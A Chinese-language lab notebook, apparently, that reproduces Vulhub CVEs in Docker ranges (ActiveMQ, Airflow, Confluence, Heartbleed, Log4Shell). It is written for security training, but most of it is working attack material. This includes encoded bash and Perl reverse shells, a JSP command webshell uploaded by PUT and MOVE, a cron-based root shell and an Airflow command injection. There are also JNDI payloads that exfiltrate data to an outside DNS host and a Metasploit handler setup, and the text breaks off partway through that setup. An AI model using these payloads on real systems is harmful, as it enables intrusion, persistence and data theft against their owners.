



综合靶场.

## 1. Install

克隆仓库

```
git clone https://github.com/vulhub/vulhub.git
```

## 2. Usage

查看漏洞环境

```
ls ~/vulhub
```

启动漏洞环境

```
cd ~/vulhub/path \
&& docker compose build \
&& docker compose up -d
```

查看文档

```
┌──(sec@debian)-[~/vulhub/path]
└─# glow README.zh-cn.md
```

删除环境

```
┌──(sec@debian)-[~/vulhub/path]
└─# docker compose down -v
```

### 2.1 activemq

### 2.1.1 [ActiveMQ 反序列化漏洞（CVE-2015-5254）](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2015-5254/README.zh-cn.md#activemq-反序列化漏洞cve-2015-5254)

**环境部署**

启动漏洞环境

```
cd ~/vulhub/activemq/CVE-2015-5254/ \
&& docker compose build \
&& docker compose up -d
```

访问

> http://debian.local:8161/


查看容器 id

```shell
[root@centos7-6 ~]# docker container ls
```

进入容器

```shell
[root@centos7-6 ~]# docker exec -it 8c423b972802 /bin/bash
```

创建域名映射

```shell
root@8c423b972802:/opt/apache-activemq-5.11.1# echo -e "192.168.1.57 kali.local\n192.168.1.60 centos.local" >> /etc/hosts
```

**利用过程**

1. 构造（可以使用 ysoserial ）可执行命令的序列化对象
2. 作为一个消息，发送给目标 61616 端口
3. 访问 web 管理页面，读取消息，触发漏洞

使用 [jmet](https://github.com/matthiaskaiser/jmet) 进行漏洞利用。首先下载 [jmet-0.1.0-all.jar](https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar) 文件，并在同目录下创建一个 external 文件夹（否则可能会爆文件夹不存在的错误）

jmet 原理是使用 ysoserial 生成 Payload 并发送（其 jar 内自带 ysoserial ，无需再自己下载），所以我们需要在 ysoserial 是 gadget 中选择一个可以使用的，比如 ROME 

执行：

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
```

此时会给目标 ActiveMQ 添加一个名为 event 的队列，我们可以通过 `http://your-ip:8161/admin/browse.jsp?JMSDestination=event` 看到这个队列中所有消息，管理员查看这条消息即可触发命令执行

**漏洞复现**

修改 jdk 为 /usr/local/jdk1.8.0_202/bin/java              0802

```shell
┌──(root㉿kali)-[~]
└─# sudo update-alternatives --config java
```

```
有 2 个候选项可用于替换 java (提供 /usr/bin/java)。

  选择       路径                                       优先级  状态
------------------------------------------------------------
* 0            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      自动模式
  1            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      手动模式
  2            /usr/local/jdk1.8.0_202/bin/java              0802       手动模式

要维持当前值[*]请按<回车键>，或者键入选择的编号：2
```

查看版本

```shell
┌──(root㉿a-kali-23)-[~]
└─# java -version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
java version "1.8.0_202"
Java(TM) SE Runtime Environment (build 1.8.0_202-b08)
Java HotSpot(TM) 64-Bit Server VM (build 25.202-b08, mixed mode)
```

侦听端口

```shell
┌──(root㉿kali)-[~]
└─# sudo systemctl start apache2.service && sudo systemctl status apache2.service && nc -lnvp 4444
```

将 payload 使用 base64 编码

```shell
┌──(root㉿kali)-[~]
└─# echo "bash -i >& /dev/tcp/kali.local/4444 0>&1" | base64
```

下载  [jmet-0.1.0-all.jar](https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar) 文件

```shell
┌──(root㉿kali)-[~]
└─# mkdir -p /root/jmet/external && proxychains4 wget -P /root/jmet https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
```

发送 payload

```shell
┌──(root㉿kali)-[~]
└─# cd /root/jmet && java -jar /root/jmet/jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9rYWxpLmxvY2FsLzQ0NDQgMD4mMQo=}|{base64,-d}|{bash,-i}" -Yp ROME centos.local 61616
```

> webshell 为 bash -i >& /dev/tcp/kali.local/4444 0>&1 使用了 base64 编码

查看这个队列中所有消息

> http://debian:8161/admin/browse.jsp?JMSDestination=event
>
> 用户名：    admin
>
> 密码：	admin
>


> 点击查看这条消息即可触发命令执行

验证

```shell
root@8c423b972802:/opt/apache-activemq-5.11.1# id
id
uid=0(root) gid=0(root) groups=0(root)
```

> 值得注意的是，通过 web 管理页面访问消息并触发漏洞这个过程需要管理员权限
>
> 在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发

### 2.1.2 [ActiveMQ任意文件写入漏洞（CVE-2016-3088）](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2016-3088/README.zh-cn.md#activemq任意文件写入漏洞cve-2016-3088)

**环境部署**

启动漏洞环境

```shell
┌──(root㉿kali)-[~]
└─# docker-compose -f /root/tools/vulhub/activemq/CVE-2016-3088/docker-compose.yml build && docker-compose -f /root/tools/vulhub/activemq/CVE-2016-3088/docker-compose.yml up -d
```

访问

> http://debian:8161/


[**写入 webshell**](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2016-3088/README.zh-cn.md#写入webshell)

**利用过程**

前面说了，写入 webshell ，需要写在 admin 或 api 应用中，而这俩应用都需要登录才能访问

默认的 ActiveMQ 账号密码均为 admin，首先访问 `http://your-ip:8161/admin/test/systemProperties.jsp` ，查看 ActiveMQ 的绝对路径：


然后上传webshell：

```http
PUT /fileserver/2.txt HTTP/1.1
Host: centos.local:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

webshell...
```

移动到web目录下的api文件夹（/opt/activemq/webapps/api/s.jsp）中：

```http
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: centos.local:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

访问 webshell（需要登录）：

**漏洞复现**

访问 http://debian:8161/fileserver/ 


抓包，上传 webshell 

```http
PUT /fileserver/test.txt HTTP/1.1
Host: centos.local:8161
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,images/avif,images/webp,images/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Connection: close
Content-Length: 450

<%
        if("023".equals(request.getParameter("pwd"))){
                java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
                int a = -1;
                byte[] b = new byte[2048];
                out.print("<pre>");
                while((a=in.read(b))!=-1){
                        out.println(new String(b));
                }
                out.print("</pre>");
        }
%>
```

访问 http://debian:8161/fileserver/test.txt ，确认文件 test.txt 已经上传


移动到 `web` 目录下的 `api` 文件夹（`/opt/activemq/webapps/api/test.jsp`）中

```http
MOVE /fileserver/test.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/test.jsp
Host: centos.local:8161
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,images/avif,images/webp,images/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Connection: close
Content-Length: 0


```

访问 `http://debian:8161/api/test.jsp` ，确认文件 `test.jsp` 已经上传

> 用户名：	admin
>
> 密码：		admin


验证

> 指令：`http://debian:8161/api/test.jsp?pwd=023&i=[command]`


[**写入crontab，自动化弹shell**](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2016-3088/README.zh-cn.md#写入crontab自动化弹shell)

**利用过程**

这是一个比较稳健的方法。首先上传 cron 配置文件（注意，换行一定要`\n`，不能是`\r\n`，否则 crontab 执行会失败）：

```http
PUT /fileserver/1.txt HTTP/1.1
Host: centos.local:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="[ip]";$p=[port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

将其移动到 /etc/cron.d/root：

```http
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: centos.local:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

如果上述两个请求都返回 204 了，说明写入成功。等待反弹 shell ：


这个方法需要 ActiveMQ 是 root 运行，否则也不能写入 cron 文件。

**漏洞复现**

访问 http://debian:8161/fileserver/ ，抓包，上传 cron 配置文件

> 记得使用 n.py 更改换行符格式为 `\n`

```http
PUT /fileserver/test.txt HTTP/1.1
Host: centos.local:8161
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,images/avif,images/webp,images/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Connection: close
Content-Length: 241

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="[ip]";$p=[port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

> 计划每隔一分钟触发一次

移动到 /etc/cron.d/root 

```http
MOVE /fileserver/test.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: centos.local:8161
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,images/avif,images/webp,images/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Connection: close
Content-Length: 0


```

侦听端口

```shell
┌──(root㉿kali)-[~]
└─# nc -lnvp 4444
```

验证

```shell
# id
uid=0(root) gid=0(root) groups=0(root)
```

[**写入jetty.xml或jar**](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2016-3088/README.zh-cn.md#写入jettyxml或jar)

**利用过程**

理论上我们可以覆盖jetty.xml，将admin和api的登录限制去掉，然后再写入webshell。

有的情况下，jetty.xml和jar的所有人是web容器的用户，所以相比起来，写入crontab成功率更高一点。

尚未测试。

### 2.2 airflow

### 2.2.1 [Apache Airflow 示例dag中的命令注入（CVE-2020-11978）](https://github.com/vulhub/vulhub/blob/master/airflow/CVE-2020-11978/README.zh-cn.md)

**环境部署**

启动漏洞环境

```shell
┌──(root㉿kali)-[~]
└─# docker-compose -f /root/tools/vulhub/airflow/CVE-2020-11978/docker-compose.yml run airflow-init && docker-compose -f /root/tools/vulhub/airflow/CVE-2020-11978/docker-compose.yml up -d
```

访问

> http://debian:8080/


**利用过程**

这利用了容易受到命令注入攻击的示例 DAG ，并使用默认公开的实验性 REST API ，即使 Web 界面设置了身份验证也是如此

**漏洞复现**

开启 example_trigger_target_dag 


进入 Trigger Dag 


在 Configuration JSON 中执行

```json
{"message":"'\";touch /tmp/airflow_dag_success;#"}
```



等待一段时间后可以看到执行成功


在 CeleryWorker 容器中进行查看

```shell
┌──(root㉿kali)-[~]
└─# docker-compose -f /root/tools/vulhub/airflow/CVE-2020-11978/docker-compose.yml exec airflow-worker ls -l /tmp
total 8
-rw-r--r-- 1 airflow airflow    0 Dec  5 03:09 airflow_dag_success
drwx------ 2 airflow airflow 4096 Dec  5 02:49 pymp-zg47_6dp
drwx------ 4 root    root    4096 Apr  2  2020 tmp.m9QD2FWWw0
```

> 可以看到 touch /tmp/airflow_dag_success成功被执行

### 2.3 confluence

### 2.3.1 [Confluence 属性覆盖导致权限绕过漏洞 (CVE-2023-22515)](https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2023-22515/README.zh-cn.md)

**环境部署**

启动漏洞环境

```shell
[root@centos7-6 ~]# docker-compose -f /root/tools/vulhub/confluence/CVE-2023-22515/docker-compose.yml up -d
```

访问

> https://centos7-6.local:8090/

获取评估许可证

> https://my.atlassian.com/license/evaluation?product=Confluence&licensefieldname=confLicenseString&version=8.5.1&build=9012&sid=BPM2-Z0QS-YZQE-KCTZ&callback=http://debian:8090/setup/setuplicense.action&ref=prod

Server ID:

```
BPM2-Z0QS-YZQE-KCTZ
```

Confluence:

```
AAABjg0ODAoPeNp1kV1PwjAUhu/7K5Z4ozEj3YbykTRRu4GLjAFDo4SbMg6sMjbStXz46y1W4kf0s
ud9z+lz3nM2VmBFTFiOa+FW26u3ccui/thysVtHVACTvCx8JoEcKzb2bMdDPlSp4JujRGhZLHIFR
QrWufYxi0IhQVxM21awZbn6GIAixnW1YNoW7DdcHL6NrNuOi3o8haL6R8yN+ASiOn7pokTNvgikU
IBSjVHrq/UMRLx4rLST2A76IjCuWCxZwStTmTE+V6aRpZJvwXj0QlK/A42ck+1bJtf5fH5TKpmX5
aqWlusTzj2rMhLRHe1Qf1QOGjwZNV646HC8jy5lDLvnefx6mw2XvHvtq7t7SMUhxFns9lUYdGSXL
XdTMiWG4HP/8WEDfbYGQuMoCkY0vO0ZPZFM6FjJguUVnNIKfdIL/STo2z0XO1fNRhOjBMQWhFbuB
pFrT/AwsV8mw8B+oOOJGXW8kjmSWXgFh1OyzjXGDdz0PAcNlEgzVsHv23/G8wH5Zzoah/xEegf4g
MuVMCwCFHeZ3JOJoKzCEUtvWFIZdz6iIm+YAhQ6V8YfoGYbNkH+VGW0YvclqrighQ==X02jb
```

选择 Non-clustered (single node)

填写数据库信息

> Database type: `PostgreSQL` ,Setup type: `Simple` ,Hostname: `db`，Port: `5432` ,Database name: `confluence` ,Username: `postgres` ,Password: `123456` 

/%E5%A1%AB%E5%86%99%E6%95%B0%E6%8D%AE%E5%BA%93%E4%BF%A1%E6%81%AF.png)

加载 Example Site

/加载 Example Site.png)

选择 Manage Users and Groups within Confluence

/%E9%80%89%E6%8B%A9%20Manage%20Users%20and%20Groups%20within%20Confluence.png)

配置系统管理员帐户

> Username: `admin` ,Name: `sec` ,Email: `sec@sec.com` ,Password: `123456` 

/%E9%85%8D%E7%BD%AE%E7%B3%BB%E7%BB%9F%E7%AE%A1%E7%90%86%E5%91%98%E5%B8%90%E6%88%B7.png)

开始使用

/%E5%BC%80%E5%A7%8B%E4%BD%BF%E7%94%A8.png)

创建一个空间

> 空间名：test

### 2.4 openssl

### 2.4.1 [OpenSSL 心脏出血漏洞（CVE-2014-0160）](https://github.com/vulhub/vulhub/blob/master/openssl/CVE-2014-0160/README.zh-cn.md)

**环境部署**

启动漏洞环境

```shell
[root@centos7-6 ~]# docker-compose -f /root/tools/vulhub/openssl/CVE-2014-0160/docker-compose.yml up -d
```

访问

> https://centos7-6.local:8443/

**利用过程**

心脏出血是OpenSSL库中的一个内存漏洞，攻击者利用这个漏洞可以服务到目标进程内存信息，如其他人的Cookie等敏感信息

**漏洞复现**

安装 [Heartbleed](https://github.com/FiloSottile/Heartbleed)

```shell
┌──(root㉿a-kali-23)-[~]
└─# go install github.com/FiloSottile/Heartbleed@latest
```

检测漏洞

```shell
┌──(root㉿a-kali-23)-[~]
└─# Heartbleed https://centos7-6.local:8443/
```

```
2024/02/03 10:34:04 ([]uint8) (len=102 cap=1003) {
 00000000  02 00 53 68 65 61 72 74  62 6c 65 65 64 2e 66 69  |..Sheartbleed.fi|
 00000010  6c 69 70 70 6f 2e 69 6f  20 59 45 4c 4c 4f 57 20  |lippo.io YELLOW |
 00000020  53 55 42 4d 41 52 49 4e  45 20 61 2d 63 65 6e 74  |SUBMARINE a-cent|
 00000030  6f 73 37 2d 36 2e 6c 6f  63 61 6c 3a 38 34 34 33  |os7-6.local:8443|
 00000040  21 a8 2d b7 92 ea f3 23  a5 dd 37 e8 01 bb 16 e9  |!.-....#..7.....|
 00000050  86 8b a9 e8 0b 0b 8e 96  3d d1 38 ba 81 e3 f9 e3  |........=.8.....|
 00000060  94 32 fb 14 05 37                                 |.2...7|
}

2024/02/03 10:34:04 centos7-6.local:8443 - VULNERABLE
```

> 漏洞存在

或者使用 [ssltest.py](https://github.com/vulhub/vulhub/blob/master/openssl/CVE-2014-0160/ssltest.py) 检测漏洞

```shell
┌──(root㉿a-kali-23)-[~]
└─# python3 ssltest.py centos7-6.local -p 8443
```

```
WARNING: server returned more data than it should - server is vulnerable!
```

### 2.5 log4j

### 2.5.1 [Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）](https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228/README.zh-cn.md)

>Apache Log4j2 是 Java 语言的日志处理套件，使用极为广泛。在其 2.0 到 2.14.1 版本中存在一处 JNDI 注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于
>
>`${jndi:ldap://evil.com/example}`
>
>的 lookup 用于进行 JNDI 注入，执行任意代码。

>Java 命名和目录接口（JNDI），是 Java 的一个目录服务应用程序接口（API），它提供一个目录系统，并将服务名称与对象关联起来，从而便得开友人员在开发过程中可以使用名称来访问对象。

>JNDI 可以远程加载通过 LDAP 或 RMI 服务端提供的恶意代码注入并执行
>
>以 LDAP 方式注入
>
>LDAP: `Idap://127.0.0.1/payload` 提供恶意代码。

>Log4j2是一个日志处理框架，只要将 `${jndi:ldap://127.0.0.1/payload}` 传递到日志中就可以触发
>
>日志的级别必须是 error 或 fata l。所以测试方法也比较简单粗暴，任何参数都可以直接插入 `${jndi:ldap://127.0.0.1/payload}` 
>
>只需要判断目标服务器有没有加载 `ldap://127.0.0.1/payload` 就可以判断是否存在漏洞。

渗透过程

> Apache Log4j2 是 Java 语言的日志处理套件，使用极为广泛。在其 2.0 到 2.14.1 版本中存在一处 JNDI 注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于 `${jndi:ldap://evil.com/example}` 的 lookup 用于进行 JNDI 注入，执行任意代码

.png)

.png)

>漏洞环境
>Apache Log4j2 是一个第三方库，可以通过使用了这个库的应用来复现这个漏洞，比如 Apache Solr
>
>Apache Solr 8.11.0，依赖于 Log4j 2.14.1
>
>Apache Solr是一个开源的高性能搜索服务，采用Java5开发，基于Lucene的全文搜索服务器

切换到靶场目录

```
[root@centos ~]# cd ~/tools/apps/vulhub/log4j/CVE-2021-44228/
```

启动环境

```
[root@centos CVE-2021-44228]# docker-compose up -d
```

查看访问端口

```
 [root@centos CVE-2021-44228]# cat docker-compose.yml
```

访问

> http://debian:8983/

**漏洞验证**

启动 msf

```
┌──(root㉿kali)-[~]
└─# msfdb run
```

加载 log4j2 漏洞扫描模块

```
msf6 > use auxiliary/scanner/http/log4shell_scanner
```

显示 log4shell_scanner 选项

```
msf6 auxiliary(scanner/http/log4shell_scanner) > show options
```

设置 rhost 

```
msf6 auxiliary(scanner/http/log4shell_scanner) > set rhost centos.local
```

设置 rport

```
msf6 auxiliary(scanner/http/log4shell_scanner) > set rport 8983
```

设置 srvhost

```
msf6 auxiliary(scanner/http/log4shell_scanner) > set srvhost kali.local
```

设置 srvport

```
msf6 auxiliary(scanner/http/log4shell_scanner) > set srvport 8983
```

运行 log4shell_scanner

```
msf6 auxiliary(scanner/http/log4shell_scanner) > run
```

检测出存在 log4j2 漏洞



**数据外带**

在某些无法直接利用漏洞获得回显的情况下，但是目标可以发起 DNS 请求，这个时候就可以通 DNSlog 把想获得的数据外带出来。

>DNSlog 是存储在 DNS Server 上的域名信息，它记录着用户对域名的访问信息，类似日志文件。

>DNSlog 回显
>
>当解析 `hello.com` 时无法回显，可以将 `hello.com` 及所有子域名泛解析到 `hello.com` 的 IP，此时解析 `www.hello.com` 就可以从 DNSlog 得到`hello.com` 的 IP。

将以下 Payload 作为管理员接口的 action 参数值发送至目标服务器

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

> `bn2sdf6d1h8qdh8t8805xefxjopfd91y.oastify.com`是利用 JNDI 发送 DNS 请求的 Payload
>
> 可以在 DNS 日志平台收到相关日志，显示出当前 Java 版本

打开 Burpsuite，进入  Burp Collaborator 


点击，复制一个 url 地址


```
bn2sdf6d1h8qdh8t8805xefxjopfd91y.oastify.com
```

修改 URL，目标 IP，和端口

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.bn2sdf6d1h8qdh8t8805xefxjopfd91y.oastify.com} HTTP/1.1
Host: centos.local:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

> 要先复制 payload 再在重放器中粘贴请求，顺序不能颠倒

`注意空格不能多也不能少。`

粘贴请求包至重放器


对 ${ } 及其内容进行 URL 编码


在末尾空两行


点击发送配置目标 IP 和端口


再次点击发送


> 看到响应包反馈为失败，但是可以得到结果

在 Collaborator 中查看轮询结果


> 可以看到目标 java 的版本为 1.8.0

**渗透测试**

**制作 linux 反弹 shell 脚本**

>bash -i > /dev/tcp/kali.local/4444 2>&1 0>&1

>bash -i >& /dev/tcp/kali.local/4444 0>&1

| 操作                                | 描述                                                         |
| ----------------------------------- | ------------------------------------------------------------ |
| bash -i                             | 创建一个交互式的 bash shell                                  |
| /dev/tcp/kali.local/4444            | 连接 kali.local:4444 端口<br /> 是 <br />                    |
| dev                                 | 设备的英文缩写，主要存放与设备（包括外设）有关的文件         |
| /dev/tcp/                           | 是 linux 中的一个特殊设备，打开这个文件就相当于发出了一个 socket 调用，建立一个 socket 连接，读写这个文件就相当于在这个 socket 连接中传输数据 |
| /dev/tcp/${HOST}/${PORT}            | 位于 /dev 这个设备文件夹下，这个文件并不存在，并且不是一个设备文件。<br />这只是 bash 实现的用来实现网络请求的一个接口，如同编写的一个命令行程序，按照指定的格式输入 host port 参数，就能发起一个 socket 连接。 |
| >&                                  | 将标准输出和错误输出重定向到 /dev/tcp/kali.local/4444        |
| bash -i >& /dev/tcp/kali.local/4444 | bash -i > /dev/tcp/kali.local/4444 2>&1 的缩写               |
| 0>&1                                | 表示这里意思是将 0[标准输入]重定向到了 1[标准输出]指向的位置，标准输出 1 指向就是 /dev/tcp/kali.local/4444。<br/>这两组重定向，将输入，输出，报错信息都输入到<br/>/dev/tcp/kali.local/4444 这里了，就相当于把整个 shell 会话，都重定向到 tcp 连接中了。 |

在 nc 上创建侦听 4444 端口，通过反弹 shell 的脚本建立会话

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 4444
```

| 操作 | 描述                                                         |
| ---- | ------------------------------------------------------------ |
| -l   | 用于指定 nc 将处于侦听模式。指定该参数，则意味着 nc 被当作 server，侦听并接受连接，而非向其它地址发起连接 |
| -p   | 指定监听的端口号                                             |
| -v   | 显示详细的交互信息                                           |
| -n   | 直接显示 IP 地址，不解析成 dns 域名                          |

在目标上执行反弹 shell 脚本

> 前提是拿到目标一定的权限（利用蚁剑，冰蝎，哥斯拉）

```
[root@centos ~]# bash -i >& /dev/tcp/kali.local/4444 0>&1
```


`拿到权限。`

存在特殊字符，对脚本进行 base64 编码

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYuMjQvNDQ0NCAwPiYx
```


echo 命令输出 base64 字符串传递给 base64 -d 进行解码

> 目标为 Linux 的一般都可以

```
┌──(root㉿kali)-[~]
└─# echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYuMjQvNDQ0NCAwPiYx | base64 -d
```

解码后的内容传递给 bash 即可执行

```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYuMjQvNDQ0NCAwPiYx | base64 -d | bash
```

整条命令合并到一起

```
bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYuMjQvNDQ0NCAwPiYx}|{base64,-d}|bash"
```

| 操作 | 描述                                                |
| ---- | --------------------------------------------------- |
| -c   | 可以执行一长串命令                                  |
| { }  | 用于声明其中内容是一个整体，并且在当前 shell 下执行 |

**将脚本加入到 LDAP 或 RMI 启动执行的命令中**

> 将 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 上传到 Kali 系统的 /root 目录下

启动 LDAP 服务执行 JNDI 注入攻击的 jar 文件

```
┌──(root㉿kali)-[~]
└─# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYuMjQvNDQ0NCAwPiYx}|{base64,-d}|bash" -A kali.local
```

| 操作 | 描述                                                        |
| ---- | ----------------------------------------------------------- |
| -C   | 工具启动的 ldap 或 rmi 服务所提供的恶意代码所执行的系统命令 |
| -A   | 启动的 ldap 或 rmi 服务的 IP                                |

 >使用工具启动 LDAP 或 RMI 服务时，把反弹 shell 脚本指定为 LDAP 或 RMI 服务所提供的恶意代码所执行的系统命令，JNDI 远程加载 LDAP 或 RMI 服务端提供的恶意代码并执行，会触发反弹 shell 脚本建立会话。


> 根据版本号选择链接

利用 log4j2 漏洞，构造恶意的 jndi 请求

```
http://debian:8983/solr/admin/cores?action=${jndi:ldap://kali.local:1389/lhumat}
```

对 ${ } 及其内容，进行 URL 编码

```
http://debian:8983/solr/admin/cores?action=%24%7b%6a%6e%64%69%3a%6c%64%61%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%36%2e%32%34%3a%31%33%38%39%2f%6c%68%75%6d%61%74%7d
```

保留 LDAP 或 RMI 服务，创建侦听

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 4444
```

执行 payload

```
┌──(root㉿kali)-[~]
└─# curl http://debian:8983/solr/admin/cores?action=%24%7b%6a%6e%64%69%3a%6c%64%61%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%36%2e%32%34%3a%31%33%38%39%2f%6c%68%75%6d%61%74%7d
```


`成功接收到 shell。` 

**将 shell 返回给 MSF，方便后期操作**

开启 msf

```
┌──(root㉿kali)-[~]
└─# msfdb run
```

加载 handler

```
msf6 > use exploit/multi/handler
```

显示 handler 选项

```
msf6 exploit(multi/handler) > show options
```

设置 reverse_tcp

```
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
```

设置 lhost

```
